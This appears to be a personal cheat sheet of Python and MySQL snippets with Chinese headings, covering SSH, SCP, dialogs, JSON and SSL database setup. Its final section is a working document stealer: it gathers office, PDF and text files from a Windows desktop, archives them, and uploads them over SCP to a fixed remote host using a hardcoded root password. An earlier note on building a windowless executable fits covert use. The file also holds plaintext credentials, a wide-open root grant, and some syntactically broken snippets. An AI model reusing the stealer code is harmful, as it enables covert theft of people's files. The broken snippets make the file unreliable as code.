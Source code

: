 # -*- mode=python ending:utf-8 -*-
#############-----------------         随机验证码           ---------##############################
import random
def get_code(xx):
   a='1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
   b=''
   for i in range(xx):
        c=random.randint(0,61)
        b+=a[c]
   return b   
   
#####################  ###-----------------        python打包为tar包        ---------###########
 tar=tarfile.open("a.tar.gz","w:gz")
    for i in file:
        tar.add(i)
    tar.close()  
#####################  ###-----------------        获取系统命令返回值         ---------###########
import subprocess
(a,b)=subprocess.getstatusoutput("curl -Ss ifconfig.me")

##########################---------------         遍历目录查找文件    ---------#############

def search(dir,fil):
    os.chdir(dir)
    it = os.listdir()
    for i in it:
        pa = os.path.join(dir,i)
        if os.path.isdir(pa):
            search(pa,fil)
            os.chdir(os.pardir)
        elif fil in pa.split("/")[-1] :
            print(pa)
##########################-----------------         ssh 密钥认证           ---------################
#公钥打包exe程序需要添加 --key id_rsa参数  pyinstaller -F -w --key id_rsa .py      
import paramiko
client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
private_key=paramiko.RSAKey.from_private_key_file("id_rsa")
client.connect(hostname='192.168.116.200', port=22, username='root', pkey=private_key)
print(client.get_transport().is_active())
stdin, stdout, stderr = client.exec_command('ls')
a,b=stdout.read(),stderr.read() 		 #获取执行结果   
result= a if a else b       
print(result.decode())
#--------------------------------------------       scp上传下载            ---------################
import paramiko
s=paramiko.Transport(("192.168.116.200",22))
s.connect(username='root',password='xiaoxue')
sftp=paramiko.SFTPClient.from_transport(s)
sftp.get("/usr/local/nginx/html/aaa.txt",'c.txt')


#######################---------------         time获取时间              ---------##############################
time.strftime("%Y_%m_%d_%H:%M:%S",time.localtime(time.time()))


######################-----------------        json编码解码              ---------##############################
import json
js={"name":"张三","age"=26}            
json.dumps(js)          #json编码
json.loads(js)          #json解码

with open("a.js",'w') as f :             #保存为文件   
      json.dump(js,f)                    #json编码
         
with open('a.js','r') as f:              #读取文件
     js=json.load(f)                     #json解码


#####################-----------------        弹出提示对话框,判断有文件    ---------###########################
--  1   （推荐）----------------------------------------------------------------------------------------------
import easygui
easygui.msgbox("what are you doing now\n\n",'提示')
--  2   ------------------------------------------------------------------------------------------------------
import win32api,os,sys      
import win32con            
if os.path.isfile("src\\id_rsa.txt"):
    pass
else:
    win32api.MessageBox(win32con.NULL, "没有文件", "提示",win32con.MB_OK | win32con.MB_ICONINFORMATION)
    sys.exit(0)
--  3   -------------------------------------------------------------------------------------------------------
from tkinter import  messagebox
easygui.msgbox("lalala~",'提示')
easygui.ccbox("lalala~",'提示')   #True,False

--  4   -------------------------------------------------------------------------------------------------------
import tkinter
import tkinter.messagebox #弹窗库
1、提示消息框
tkinter.messagebox.showinfo('提示','人生苦短')
2、消息警告框
tkinter.messagebox.showwarning('警告','明日有大雨')
3、错误消息框
tkinter.messagebox.showerror('错误','出错了')
4、对话框
tkinter.messagebox.askokcancel('提示', '要执行此操作吗')#确定/取消，返回值true/false
tkinter.messagebox.askquestion('提示', '要执行此操作吗')#是/否，返回值yes/no
tkinter.messagebox.askyesno('提示', '要执行此操作吗')#是/否，返回值true/false
tkinter.messagebox.askretrycancel('提示', '要执行此操作吗')#重试/取消，返回值true/false
5、文件对话框
import tkinter.filedialog
a=tkinter.filedialog.asksaveasfilename()#返回文件名
print(a)
a =tkinter.filedialog.asksaveasfile()#会创建文件
print(a)
a =tkinter.filedialog.askopenfilename()#返回文件名
print(a)
a =tkinter.filedialog.askopenfile()#返回文件流对象
print(a)
a =tkinter.filedialog.askdirectory()#返回目录名
print(a)
a =tkinter.filedialog.askopenfilenames()#可以返回多个文件名
print(a)
a =tkinter.filedialog.askopenfiles()#多个文件流对象
print(a)
#################################-----------------        mysql数据库操作连接          ---------###########
create table IF NOT EXISTS ab(id int(50) primary key,name varchar(20),message varchar(100)) DEFAULT CHARSET=utf8;
mysql_ssl_rsa_setup --uid=mysql
vim /etc/my.cnf
ssl-ca=/var/lib/mysql/ca.pem
ssl-cert=/var/lib/mysql/server-cert.pem
ssl-key=/var/lib/mysql/server-key.pem
require_secure_transport = ON
bind-address = 0.0.0.0
systemctl  restart mysqld
ALTER USER 'root'@'%' require ssl;                                        #修改用户只允许ssl连接 
grant all privileges on *.* to 'root'@"%" identified by 'Pwd@123456' require ssl;    #授权时候只允许ssl
FLUSH PRIVILEGES;
show variables like '%ssl%';   #查看是否开启ssl连接
\s                              #看是否是ssl连接
alter user 'root'@'%' require x509;         #证书(pymysql不能用)
mysql -uroot -pPwd@123456 -h 192.168.116.200 --ssl-cert=/var/lib/mysql/client-cert.pem --ssl-key=/var/lib/mysql/client-key.pem --ssl-ca=/var/lib/mysql/ca.pem
###############-----------------                ssl+pymysql                 -------------------------
db = pymysql.connect(host="192.168.116.200",user="root",passwd="Pwd@123456",database="python",ssl={"ssl":''}})
a= db.cursor()
a.execute('insert into  user(ip,time) values("123","80:02"')) #创建写入数据
db.commit()
a.execute('select time  from {} where ip="{}";'.format(abrr,who))           #查询读取数据
print(a.fetchall())

#################################-----------------        检索文件远程发送         ---------###########
import os,paramiko,time,tarfile,easygui,threading,socket
from scp import SCPClient
def SCP(file):
    ssh=paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    ssh.connect(hostname="192.168.116.200", port=22, username='root', password="xiaoxue")
    scp=SCPClient(ssh.get_transport(),socket_timeout=15.0)
    tar=tarfile.open(tarn,"w:gz")
    for i in file:
        tar.add(i)
    tar.close()
    scp.put(tarn,"/mnt")
    scp.close()
wenjian = []
def search(dir):
    global wenjian
    jiewei=['doc','docx','xls','xlsx','txt','pdf']
    os.chdir(dir)
    it = os.listdir()
    for i in it:
        pa = os.path.join(dir,i)
        if os.path.isdir(pa):
            search(pa)
            os.chdir(os.pardir)
        else:
            for i in jiewei:
                if i in pa.split("\\")[-1]:
                  wenjian.append(pa)
if __name__=="__main__":
  try:
    a=time.time()
    tarn = socket.gethostbyname(socket.gethostname()) + ".tar.gz"
    search("C:\\Users\\Administrator\\Desktop")
    threading.Thread(target=SCP,args=(wenjian,)).start()
    print("okay..........................",time.time()-a)
  except  Exception as f :
      easygui.msgbox(str(f),'linux')

